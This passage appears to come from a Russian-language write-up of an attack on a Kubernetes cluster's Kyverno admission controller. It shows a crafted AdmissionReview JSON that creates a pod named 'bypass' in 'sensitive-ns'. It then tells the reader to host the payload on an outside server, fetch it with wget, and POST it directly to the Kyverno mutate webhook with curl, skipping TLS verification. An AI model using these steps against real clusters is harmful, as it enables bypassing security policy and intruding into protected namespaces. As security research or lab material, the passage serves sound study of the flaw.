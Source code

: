 ```
            "group": "",
            "version": "v1",
            "kind": "Pod"
        },
        "requestResource": {
            "group": "",
            "version": "v1",
            "resource": "pods"
        },
        "name": "bypass",
        "namespace": "sensitive-ns",
        "operation": "CREATE",
        "userInfo": {
            "username": "kube-review",
            "uid": "21274f49-9860-44e4-9d6f-26289d93088b"
        },
        "object": {
            "kind": "Pod",
            "apiVersion": "v1",
            "metadata": {
                "name": "bypass",
                "namespace": "sensitive-ns",
                "creationTimestamp": null
            },
            "spec": {
                "containers": [
                    {
                        "name": "alpine",
                        "image": "alpine:latest",
                        "resources": {}
                    }
                ]
            },
            "status": {}
        },
        "oldObject": null,
        "dryRun": true,
        "options": {
            "kind": "CreateOptions",
            "apiVersion": "meta.k8s.io/v1"
        }
    }
}
```

Теперь нам нужно доставить нагруз в контейнер. Просто захостите его где-либо и wget'ните, я воспользуюсь своим сервачком с белым ипом.

После доставки нагрузки - деплоим ее

`curl -X POST -H "Content-Type: application/json" --data @payload.json https://kyverno-svc.kyverno/mutate -k`
